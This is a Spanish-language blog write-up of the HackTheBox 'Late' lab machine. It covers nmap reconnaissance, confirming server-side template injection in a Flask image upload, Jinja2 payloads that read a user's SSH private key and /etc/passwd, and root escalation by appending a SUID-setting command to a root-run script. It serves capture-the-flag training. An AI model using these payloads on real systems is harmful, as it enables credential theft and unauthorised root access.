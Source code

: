 ```yaml
---
layout:   post
title:    "Write Up Late."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,Upload,SSTI,SSH,Hydra,Write-Up-Machine,Starting-Point,eWPT,OSWE,OSCP]  
---
```

![list](/assets/img/late/late.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.156 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,80 -sV -sC 10.10.11.156 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/late/Arch-2022-06-15-16-16-56.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb con esto no conseguimos nada.

![list](/assets/img/late/Arch-2022-06-15-16-58-15.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `ctrl + u` podemos encontrar el dominio `images.late.htb` en cual ingresamos 

al `/etc/host` y recargamos.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-21-31.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con `gobuster` podemos encontrar el dominio `images.late.htb` en cual ingresamos 

al `/etc/host` y recargamos.

![list](/assets/img/late/Arch-2022-06-15-16-33-26.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En este dominio vemos que podemos subir archivos pero tambien algo interesante 

`with Flask` y muchas de las veces es vulnerable a `Server Side Template Injection`.

![list](/assets/img/late/Parrot-SO3-2022-08-01-15-56-30.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Con libreOfice subimos una imagen con "\{\{4+4\}\}". 

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-06-03.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Como la respuesta es `16` corrovoramos que si es vulnerable a SSTI. 

Sabiendo esto usaremos un payload de  [PayloadsAllTheThings] crearemos una imagen que nos 

permita ejecutar comandos tal para ver los `usuarios` y la `id_rsa`.

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-48-23.png){:.lead width="800" height="100" loading="lazy"}

```default
\{\{ cycler.__init__.__globals__.os.popen('id; cat ~/.ssh/id_rsa').read() \}\}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta es la id_rsa. 

Tenemos su id_rsa, ahora consigamos elusuario para entonces conectarnos atraves de ssh.

![list](/assets/img/late/Parrot-SO3-2022-08-01-16-18-52.png){:.lead width="800" height="100" loading="lazy"}

```defaul
\{\{ cycler.__init__.__globals__.os.popen('id; cat /etc/passwd').read() \}\}
```

{:.note}
Esto se hace con libreofice y se sube la imagen la respuesta son los usuarios.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, podemos ver con pspy que root ejecuta un 

archivo llamado `ssh-alert.sh` cada que iniciamos sesión por ssh.


```bash
echo "chmod u+s /bin/bash" >> ssh-alert.sh
```
{:.note}
Inyectamos1 permisos u+s al archivo ssh-alert.sh y nos salimos ppero nos volvemos a 

conectarpor ssh.

```bash
ssh svc_acc@10.10.11.156 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.


![list](/assets/img/late/Parrot-SO3-2022-08-01-17-11-25.png){:.lead width="800" height="100" loading="lazy"}


Para este punto solo debemos hacer `bash -p` y buscar las flag del user y la de root que estanen los 

escritoriosde svc_acc y de /root respectivamente.

***
```bash
🎉 Felicitaciones ya has comprometido Late de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}--->